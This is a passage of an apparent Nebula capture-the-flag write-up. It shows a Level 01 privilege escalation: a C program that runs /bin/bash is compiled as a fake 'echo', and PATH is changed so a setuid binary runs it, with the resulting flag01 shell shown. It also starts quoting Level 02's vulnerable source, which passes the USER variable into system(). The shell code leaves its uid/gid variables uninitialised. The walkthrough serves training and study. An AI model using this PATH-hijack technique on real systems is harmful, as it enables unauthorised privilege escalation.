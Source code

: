 ```/usr/bin/env``` runs a command in a modified environment. To explot this, simply modify the PATH variable to point to a binary named ```echo``` that we made.

Write a C code that executes a shell.

``` C
#include<stdio.h>
#include<unistd.h>

int main() {
	uid_t uid;
	gid_t gid;

	setresgid(gid,gid,gid);
	setresuid(uid,uid,uid);

	system("/bin/bash");
}
```
Compile it and name the executable as ``echo```.
``` bash
level01@nebula:~$ gcc -o echo exploit.c
```

modify the PATH variable
``` bash
export PATH="/home/level01:$PATH"
```
This will make the binary execute our version of ```echo```.

``` bash
level01@nebula:~$ /home/flag01/flag01
flag01@nebula:~$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 02

Level02's description :
>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

``` C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
```